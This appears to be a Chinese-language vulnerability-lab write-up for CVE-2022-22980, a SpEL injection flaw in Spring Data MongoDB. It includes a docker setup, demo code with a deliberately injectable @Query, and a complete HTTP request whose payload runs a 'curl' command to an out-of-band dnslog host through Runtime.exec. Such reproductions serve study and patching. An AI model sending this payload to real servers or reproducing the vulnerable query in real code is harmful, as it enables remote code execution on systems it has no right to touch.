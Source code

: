 # CVE-2022-22980 Spring Data MongoDB SpEL表达式注入漏洞

​	Spring Data for MongoDB 是 Spring Data 项目的一部分，该项目旨在为新数据存储提供熟悉且一致的基于 Spring 的编程模型，同时保留特定于存储的特性和功能。Spring Data MongoDB 项目提供与 MongoDB 文档数据库的集成。Spring Data MongoDB 的关键功能是以 POJO 为中心的模型，用于与 MongoDB DBCollection 交互并轻松编写 Repository 样式的数据访问层。

​	Spring Data MongoDB为MongoDB提供接口服务，便于接入Spring软件生态中使用。当使用@Query或@Aggregation注解进行查询时，若通过SpEL占位符获取输入参数，并且未对用户输入进行有效过滤，则可能受该漏洞影响。在前述条件下，攻击者可利用该漏洞，构造恶意数据执行远程代码，最终获取服务器权限。



**项目地址**

https://spring.io/projects/spring-data-mongodb



## 漏洞环境



执行如下命令启动一个spring-data-mongodb-demo-web服务：

```
docker compose up -d
```



服务启动后，访问`http://your-ip:8080/demo`即可查看到mongodb demo示例。



demo示例

```java
@RestController
public class DemoController {

  private final DemoRepository demoRepository;

  public DemoController(DemoRepository demoRepository) {
    this.demoRepository = demoRepository;
  }

  @RequestMapping(value = "/demo")
  public List<?> demo(@RequestParam(name = "keyword") String keyword) {
    return demoRepository.findAllByIdLike(keyword);
  }
}
```



```java
@org.springframework.stereotype.Repository
public interface DemoRepository extends Repository<Demo, String> {

  @Query("{ id : :#{?0} }")
  List<Demo> findAllByIdLike(String keyword);

}
```



## 漏洞复现

向demo打入如下payload

```
POST /demo HTTP/1.1
Host: your-ip:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.105 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

keyword=T(java.lang.String).forName('java.lang.Runtime').getRuntime().exec('curl ivjsu3.dnslog.cn')
```

![image-20240329153637561](./1.png)